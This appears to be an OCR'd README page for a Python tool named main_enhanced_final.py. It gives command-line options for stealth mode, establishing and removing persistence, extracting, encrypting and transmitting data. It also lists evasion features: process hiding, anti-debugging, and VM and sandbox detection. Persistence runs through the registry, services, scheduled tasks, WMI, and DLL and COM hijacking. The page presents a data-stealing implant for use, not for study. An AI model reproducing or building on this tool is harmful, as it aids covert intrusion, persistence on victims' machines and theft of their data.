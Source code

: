 
## 🔧 **Command Line Interface**

### **Advanced Options**
```bash
# Activate stealth mode
python main_enhanced_final.py --stealth

# Establish persistence
python main_enhanced_final.py --persistence registry services tasks

# Remove persistence
python main_enhanced_final.py --remove-persistence

# Extract data
python main_enhanced_final.py --extract /path/to/output

# Encrypt data
python main_enhanced_final.py --encrypt /path/to/data --password your_password

# Decrypt data
python main_enhanced_final.py --decrypt /path/to/data --password your_password

# Transmit data
python main_enhanced_final.py --transmit /path/to/data

# Show status
python main_enhanced_final.py --status
```

---

## 🛡️ **Security Features**

### **Stealth Capabilities**
- **Process Hiding**: Conceals from task manager and process lists
- **Anti-Debugging**: Detects and evades debuggers
- **VM Detection**: Identifies virtual machine environments
- **Sandbox Detection**: Recognizes sandbox analysis environments
- **Anti-Analysis**: Implements timing randomization and fake activity

### **Persistence Mechanisms**
- **Registry**: Multiple startup registry locations
- **Services**: Windows service installation
- **Scheduled Tasks**: Multiple trigger-based tasks
- **Startup Folders**: User and system startup placement
- **WMI Events**: Event-driven persistence
- **DLL Hijacking**: Dynamic library hijacking
- **COM Hijacking**: Component hijacking
